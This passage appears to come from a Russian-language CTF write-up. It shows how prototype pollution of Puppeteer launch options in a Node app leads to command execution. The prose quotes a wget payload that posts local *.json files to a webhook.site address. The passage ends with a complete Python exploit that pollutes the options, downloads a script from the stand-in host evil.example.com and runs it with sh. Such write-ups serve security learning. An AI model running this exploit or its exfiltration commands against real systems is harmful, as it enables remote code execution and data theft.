  ```ts
      channel,
      executablePath,
    } = options;
 ```
 Итого перезаписываем `shell`, атрибут `childProcess` на sh,  `executablePath` выставляем диреукторию с записками, далее в `debuggingPort` пишем команды для исполнения, однако мы ограничены по длине входных данных, поэтому хостим у себя на белом ip нагруз `wget https://webhook.site/xxxxx --post-data="$(cat *.json)`, подтягиваем и выполняем

 итоговый сплойт
 ```py
import httpx

BASE_URL = "http://localhost:3000"

ATTACKER_HOST = "evil.example.com"

client = httpx.Client(base_url=BASE_URL)

def pp(key: str, value: str):
    author = "option(a).constructor.prototype." + key + "=" + value + ""
    assert len(author) <= 86, [author, len(author)]
    res = client.post(
        "/customise",
        json={
            "data": [
                {},
                {
                    "author": author,
                },
            ]
        },
    )
    assert res.json()["Message"] == "Settings changed", res.text
    res = client.post("/create", json={})
    assert res.status_code == 500

pp("shell", '"sh"')
pp("userDataDir", '"/app/notes"')
pp("executablePath", '"echo"')
pp("ignoreDefaultArgs", "true")

pp("debuggingPort", '";cd\\tnotes;a="')
pp("debuggingPort", f'";wget\\t{ATTACKER_HOST}/x;a="')
pp("debuggingPort", '";sh\\tx;"')

res = client.get("/healthcheck")
assert res.json()["Message"] == "healthcheck failed"
 ```

передохните.